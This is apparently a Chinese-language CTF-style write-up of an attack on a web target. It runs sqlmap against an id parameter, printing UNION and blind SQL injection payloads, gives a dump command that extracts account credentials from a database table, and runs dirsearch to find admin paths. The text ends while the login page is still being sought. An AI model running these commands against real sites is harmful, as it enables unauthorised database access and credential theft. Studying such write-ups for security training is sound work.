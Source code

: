 觀察當中幾個頁面的url

`https://target.entroy.tk/service_open.php?id=1`

好像可以用`sqlmap`掃一下
```bash
sqlmap https://target.entroy.tk/service_open.php?id=1 -p id --level 5 --risk 3 --batch --random-agent

-> 
[19:58:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=20 AND 8277=8277

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-8195 UNION ALL SELECT NULL,CONCAT(0x7178716271,0x42754c584747795378524b4559736c494c75754344475278674c734f59436a655555697a43426179,0x716b6a7a71),NULL,NULL-- -
---
```

開始找有用的資訊...

最後在 `tongyi->master`中找到帳號密碼

```bash
sqlmap https://target.entroy.tk/service_open.php?id=20 -p id --level 5 --risk 3 --batch --random-agent --technique BU -dbs -D tongyi --tables -T master --columns --dump
```

開始找登入介面

```bash
dirsearch -u https://target.entroy.tk/ --random-agent

->
[20:04:33] 301 -  236B  - /js  ->  http://target.entroy.tk/js/                           
[20:05:37] 200 -    6KB - /about.php               
[20:07:29] 200 -    7KB - /contact.php  
[20:07:30] 301 -  241B  - /control  ->  http://target.entroy.tk/control/    
[20:07:33] 301 -  237B  - /css  ->  http://target.entroy.tk/css/       
[20:08:05] 200 -    1KB - /footer.php                                       
[20:08:17] 200 -  770B  - /header.php                       
[20:08:26] 301 -  240B  - /images  ->  http://target.entroy.tk/images/     
[20:08:58] 200 -    5KB - /map.php                                          
[20:09:12] 200 -    9KB - /news.php                                         
[20:09:57] 200 -    0B  - /settings.php                                     
[20:10:17] 302 -    0B  - /system/  ->  key.php                             
[20:10:17] 301 -  240B  - /system  ->  http://target.entroy.tk/system/      
[20:10:33] 301 -  240B  - /upload  ->  http://target.entroy.tk/upload/                                     
```
